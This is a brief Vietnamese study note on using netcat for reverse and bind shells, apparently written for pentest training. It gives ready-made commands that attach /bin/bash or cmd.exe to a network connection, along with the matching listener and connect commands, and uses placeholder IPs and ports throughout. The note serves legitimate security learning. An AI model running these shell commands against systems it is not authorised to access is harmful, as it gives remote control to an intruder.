 Client

```jsx
nc <LOCAL-IP> <PORT> -e /bin/bash
```

## **Bind shell**

- **Kẻ tấn công khiến hệ thống mục tiêu mở một cổng và lắng nghe kết nối, sau đó kẻ tấn công sẽ kết nối đến cổng đó để giành quyền kiểm soát hệ thống.**

### Ví dụ

Attacker

```jsx
nc MACHINE_IP <port>
```

Client

```jsx
nc -lvnp <port> -e "cmd.exe"
```



# Netcat

Netcat là công cụ cơ bản nhất trong bộ công cụ của một pentester khi nói đến bất kỳ loại kết nối mạng nào.

## **Reverse Shell**

Cú pháp để khởi động một trình lắng nghe netcat bằng Linux

Attacker

```jsx
nc -lvnp <số cổng>
```

## **Bind Shell**

Nếu chúng ta đang tìm cách có được một bind shell trên một mục tiêu thì chúng ta có thể giả định rằng đã có một trình lắng nghe đang chờ chúng ta trên một cổng đã chọn của mục tiêu

Client

```jsx
nc <địa chỉ IP mục tiêu> <cổng đã chọn>
```

---

## Kỹ thuật netcat
